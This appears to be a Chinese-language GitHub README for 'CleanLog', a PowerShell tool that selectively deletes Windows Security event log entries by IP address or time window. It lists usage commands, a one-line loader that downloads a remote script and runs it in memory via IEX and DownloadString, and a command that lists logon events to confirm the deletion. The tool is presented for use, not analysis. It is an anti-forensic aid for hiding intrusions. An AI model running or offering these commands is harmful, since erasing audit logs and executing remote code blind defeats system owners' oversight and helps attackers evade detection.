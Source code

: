 # CleanLog
可以按IP,分钟和小时级别清除windows的安全日志
### 用法
```
ClearnLog -EventLogName Security -Mins 5 #删除5分钟内的安全日志.
ClearnLog -EventLogName Security -Hours 1 #删除1小时内的安全日志.
ClearnLog -EventLogName Security -IpAddress 127.0.0.1 #删除IP为127.0.0.1的登录日志.
```
### powershell 命令
```
IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/isafe/CleanLog/main/clear.ps1'); CleanLog -EventLogName Security -Hours 1
```
### 验证
```
Get-EventLog -logname Security -InstanceId 4624 | Select-Object Index,timegenerated,@{Name='UserName'; Expression={$_.ReplacementStrings[5]}},@{Name='IP';Expression={$_.ReplacementStrings[-2]}}
```
